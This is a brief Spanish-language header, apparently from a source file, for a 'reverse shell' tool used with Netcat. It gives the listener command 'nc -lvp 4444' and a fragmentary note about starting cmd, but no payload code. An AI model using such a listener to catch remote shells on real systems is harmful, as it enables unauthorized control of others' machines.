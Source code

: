**********************************************************
SHELL REVERSA
************************************************************
Se usa con Netcat
Comandos:
***********************************************************
nc -lvp 4444 (pone a la escucha )
star comando del cmd

